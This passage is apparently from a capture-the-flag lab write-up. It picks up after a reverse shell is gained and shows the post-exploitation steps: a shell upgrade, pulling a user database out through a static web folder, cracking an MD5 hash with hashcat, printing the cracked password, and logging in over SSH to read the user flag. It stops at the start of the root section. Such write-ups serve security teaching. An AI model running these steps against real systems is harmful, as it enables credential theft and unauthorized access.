 Click on "View prediction" and we receive a reverse shell.

Spawn a proper shell:

```
python3 -c "import pty;pty.spawn('/bin/bash')"
```

We land in:

```
/home/app/app
```

Inside `~/app/instance` we find `users.db`:

```
cp instance/users.db static/users.db
```

Download the file to Kali and inspect it:

```
sqlite3 users.db
sqlite> .tables
sqlite> SELECT * FROM user;
```

Hash for `gael`:

```
echo "c99175974b6e192936d97224638a34f8" > hash.txt
hashcat -m 0 hash.txt /usr/share/wordlists/rockyou.txt --force
```

Cracked:

```
Gael:mattp005numbertwo
```

SSH into the box:

```
ssh gael@10.129.188.125
```

Retrieve the user flag:

```
cat /home/gael/user.txt
```

## root.txt

Check groups:

```
id
```

Output:
